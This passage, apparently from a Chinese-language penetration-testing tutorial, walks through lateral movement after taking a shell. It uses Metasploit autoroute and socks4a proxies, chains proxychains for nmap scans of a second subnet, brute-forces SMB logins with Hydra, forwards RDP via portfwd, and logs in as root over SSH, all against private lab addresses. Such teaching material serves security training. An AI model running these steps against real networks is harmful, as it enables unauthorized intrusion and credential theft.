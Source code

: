 如果拿下75网段shell且发现目标有也存在双网卡，假如存在76网段，此时可以继续添加静态路由，进一步纵向渗透。此时：

```
`#配置路由``run autoroute -s 192.168.76.0/24``#验证能否连接``run post/windows/gather/arp_scanner RHOSTS=192.168.76.0/2`
```

```
`#设置代理``use auxiliary/server/socks4a` `set srvhost 127.0.0.1``set srvport 1081  #注意避免端口冲突``run`
```

```
`# 配置代理，要在1080端口下面再配置一个socket代理子啊1081端口上``vi /etc/proxychains.conf``socks4  127.0.0.1 1080``socks4  127.0.0.1 1081`
```

```
`#nmap扫描，这里建立了两层链路。从127.0.0.1:1080>127.0.0.1:1081>192.168.76.*``proxychains nmap -sT -sV -Pn -n -p 1-3389 192.168.76.1/24`
```

建立socks会话后，利用proxychains工具驱动其他软件可以对网段扫描、爆破、嗅探、漏洞探测及利用。进行横向渗透。也可以直接用msf里面的模块直接渗透（msf不需要proxychains驱动）

**Hydra爆破  
**

```
proxychains hydra -l admin -P pass.txt -f 192.168.75.131 smb
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)  

爆破成功后，将远程目标机的端口转发到本地攻击  
①.端口转发

```
portfwd add -L 192.168.1.5 -l 33890 -r 192.168.75.131 -p 3389
```

②.远程连接

```
rdesktop 192.168.1.5:33890
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

也可以不使用端口转发直接连接:

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

```
 `#linux远程登录` `proxychains ssh root@192.168.75.131`
```

* * *

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)